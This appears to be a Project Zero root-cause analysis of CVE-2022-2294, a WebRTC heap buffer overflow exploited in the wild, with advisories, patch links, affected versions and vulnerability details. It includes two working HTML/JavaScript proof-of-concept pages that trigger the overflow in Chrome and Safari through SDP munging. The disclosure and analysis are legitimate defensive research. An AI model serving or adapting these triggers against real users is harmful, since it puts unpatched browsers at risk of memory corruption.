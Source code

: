 # CVE-2022-2294: Heap buffer overflow in WebRTC
*Natalie Silvanovich, Project Zero*

## The Basics

**Disclosure or Patch Date:** July 4, 2022

**Product:** WebRTC (in-the-wild exploitation targeted Chrome)

**Advisory:** 

* Chrome: https://chromereleases.googleblog.com/2022/07/stable-channel-update-for-desktop.html
* Safari: https://support.apple.com/en-us/HT213341

**Affected Versions:**

* WebRTC July 1, 2022 or earlier (WebRTC does not have formal versioning)
* Chrome pre-103.0.5060.114 and earlier
* Safari 15.5 and earlier
* This issue does not affect Firefox

The vulnerable library is also used by many mobile applications, but it is unclear whether the issue is exploitable. The bug is also only reachable in applications that use SDP munging or allow users to manipulate the SDP API. However, since SDP munging is fairly common, and use of the feature is typically not considered a security boundary by applications, we strongly recommend that all WebRTC users update their library to the most recent version.

**First Patched Version:**

* Chrome: 103.0.5060.114
* Safari: 15.6

**Issue/Bug Report:** https://bugs.chromium.org/p/chromium/issues/detail?id=1341043

**Patch CL:**

Both patches must be applied to fully remediate this issue:

* https://webrtc-review.googlesource.com/c/src/+/267281
* https://webrtc-review.googlesource.com/c/src/+/267628

**Bug-Introducing CL:** https://webrtc-review.googlesource.com/c/src/+/95488/

**Reporter(s):** Jan Vojtesek from the Avast Threat Intelligence

## The Code

**Proof-of-concept:**

Chrome:
```html
<html>
<head>
<script>

var canvas = document.createElement('canvas');

function createConnection() {
	var pc = new RTCPeerConnection({
			iceServers: [],
			iceTransportPolicy: 'relay'
	});
	
	var encodings = [];
	for (var i = 0; i < 2; i++) {
		encodings.push({ rid: String.fromCharCode(97 + i) });// rid must be alphabetic and unique
	}
	pc.addTransceiver(canvas.captureStream(0).getTracks()[0], { sendEncodings: encodings });
	return pc;
}


function sdp_munge(offer) {
	let sdp = offer.sdp;
	sdp = sdp.replace(/\r?\na=rid:(.+)\s+send\r?\na=simulcast:send\s+.+;\1/, '');
	offer.sdp = sdp;
	return offer;
}


async function trigger(pc) {
	var pc = createConnection(); // create an WebRTC connection with
	var offer = await pc.createOffer(); // create an offer
	var munged_offer = sdp_munge(offer); // remove one of the send_codecs_ from the offer
	await pc.setLocalDescription(munged_offer); // set the local description with the sdp
}


trigger();


</script>
</head>
</html>
```

Safari:
Note that creating canvases for WebRTC with `document.createElement` is not supported in Safari. The PoC is otherwise the same.
```html
<html>
<body><canvas id="myCanvas" width="200" height="100"></canvas>
<script>

var canvas = document.getElementById('myCanvas');

function createConnection() {
	var pc = new RTCPeerConnection({
			iceServers: [],
			iceTransportPolicy: 'relay'
	});
	
	var encodings = [];
	for (var i = 0; i < 2; i++) {
		encodings.push({ rid: String.fromCharCode(97 + i) });
	}
	var c = canvas.getContext("bitmaprenderer");
	console.log("test", canvas.captureStream());
	pc.addTransceiver(canvas.captureStream(0).getTracks()[0], { sendEncodings: encodings });
	return pc;
}

function sdp_munge(offer) {
	let sdp = offer.sdp;
	sdp = sdp.replace(/\r?\na=rid:(.+)\s+send\r?\na=simulcast:send\s+.+;\1/, '');
	offer.sdp = sdp;
	return offer;
}

async function trigger(pc) {
	var pc = createConnection(); // create an WebRTC connection with
	var offer = await pc.createOffer(); // create an offer
	var munged_offer = sdp_munge(offer); // remove one of the send_codecs_ from the offer
	await pc.setLocalDescription(munged_offer); // set the local description with the sdp
}


trigger();


</script>
</body>
</html>
```

**Exploit sample:** N/A

**Access to the exploit sample?** Yes

## The Vulnerability

**Bug class:** Heap buffer overflow

**Vulnerability details:**

When a LocalConnection is created in WebRTC, it creates a vector that contains supported encodings. If the supported encodings are changed due to munging, a second vector is created with the current encodings. These vectors are then reconciled, which involves copying encoding properties between the vectors. If one is shorter than the other, due to the number of encodings supported being changed, a vector will be written out of bounds.

While removing an encoding was technically supported by the WebRTC API, it is uncommon for a real application to munge a local connection as opposed to the SDP sent to a remote one. The fix to this issue causes an error if an application attempts this. 

**Patch analysis:**

**Thoughts on how this vuln might have been found _(fuzzing, code auditing, variant analysis, etc.)_:**

Most likely code review, possibly involving analysis of past bugs, as [CVE-2021-4079](https://bugs.chromium.org/p/chromium/issues/detail?id=1265806) is somewhat similar. It is unlikely that this bug was found in an automated fashion.

**(Historical/present/future) context of bug:** 

## The Exploit

(The terms *exploit primitive*, *exploit strategy*, *exploit technique*, and *exploit flow* are [defined here](https://googleprojectzero.blogspot.com/2020/06/a-survey-of-recent-ios-kernel-exploits.html).)

**Exploit strategy (or strategies):** 

**Exploit flow:** 

**Known cases of the same exploit flow:**

**Part of an exploit chain?**

## The Next Steps

### Variant analysis

**Areas/approach for variant analysis (and why):**

**Found variants:**

### Structural improvements

What are structural improvements such as ways to kill the bug class, prevent the introduction of this vulnerability, mitigate the exploit flow, make this type of vulnerability harder to exploit, etc.?

**Ideas to kill the bug class:**

**Ideas to mitigate the exploit flow:**

**Other potential improvements:**

SDP munging in JavaScript is not supported by the WebRTC specification, so removing browser support is a possibility, though practically, it is widely used across the web.

### 0-day detection methods

What are potential detection methods for similar 0-days? Meaning are there any ideas of how this exploit or similar exploits could be detected **as a 0-day**?

## Other References 
* ["The Return of Candiru: Zero-days in the Middle East"](https://decoded.avast.io/janvojtesek/the-return-of-candiru-zero-days-in-the-middle-east/) by Avast
